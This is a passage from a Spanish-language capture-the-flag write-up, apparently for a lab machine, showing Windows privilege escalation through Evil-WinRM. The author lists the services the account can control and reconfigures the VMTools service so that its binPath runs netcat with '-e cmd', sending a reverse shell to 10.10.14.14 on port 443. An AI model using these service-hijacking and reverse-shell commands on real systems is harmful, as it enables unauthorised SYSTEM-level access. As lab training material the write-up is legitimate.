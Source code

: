 Vamos a crear un servicio que haga que nos envié una reverse shell a nuestro equipo

Pero nos dice que no se puede

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe create reverse binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.14 443"
[SC] OpenSCManager FAILED 5:

Access is denied.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

## Shell as nt authority system 

Como tenemos la capacidad de parar y arrancar servicios vamos a manipular el de una que ya exista

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc    

*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

Ahora vamos a manipular uno 

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.14 443"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

